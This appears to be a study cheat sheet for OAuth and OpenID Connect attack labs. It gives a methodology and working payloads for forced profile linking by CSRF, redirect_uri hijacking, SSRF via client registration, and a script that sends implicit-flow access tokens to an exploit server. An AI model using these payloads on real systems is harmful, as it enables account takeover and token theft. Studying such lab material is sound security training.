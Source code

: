 # OAuth CHEATSHEET + IMPORTANT LABS

## Key Terms
```
- SAML based SSO (single sign-on)
- OpenID Connect
- OAuth Grant Types:
	> authorization code
	> implicit (token via browser)
```
## Most important labs
- [Forced-OAuth-profile-linking-(no-state-param+CSRF)](Forced-OAuth-profile-linking-(no-state-param+CSRF).md)

- [OAuth-account-hijacking-via-redirect_uri](OAuth-account-hijacking-via-redirect_uri.md)

- [SSRF-via-OpenID-dynamic-client-registration](SSRF-via-OpenID-dynamic-client-registration.md)

- [Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit)](Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit).md)

## Methodology
```bash
- Search for a specific provider and look for endpoints in the documentation
- response_type=token? -> implicit grant
- No state param? -> CSRF
- OpenID? -> try register + SSRF
- redirect_url? 
    > try arbitrary redirect
    > try path traversal
```
## Cheat Sheet
```bash
# OPENID CONNECT
/.well-known/openid-configuration 
/.well-known/jwks.json
/reg -> redirect_uris, logo_uri  -> registrar usuario + obtener client_id +  SSRF
/client/<client_id/logo 
```
## Payloads examples
```js
<iframe src="<IP>/oauth-linking?code=STOLEN-CODE"></iframe>
//----------------------//
<iframe src="https://<OAUTH-IP>/auth?client_id=<YOUR-CLIENT-ID>f&redirect_uri=<EXPLOIT-SV>&response_type=code&scope=openid%20profile%20email"hidden="hidden"></iframe>
//----------------------//
<script>
  if (!document.location.hash) {
    window.location = 'https://<OAUTH-IP>/auth?client_id=g4c0gltgknmy2ycmupioa&redirect_uri=<IP-LAB>/oauth-callback/../post/next?path=https://exploit-0a4c006b039157ca80ddf7830129001d.exploit-server.net&response_type=token&nonce=1727033259&scope=openid%20profile%20email';
  } else {
    window.location = '/?' + document.location.hash.substr(1);
  }
</script>
```


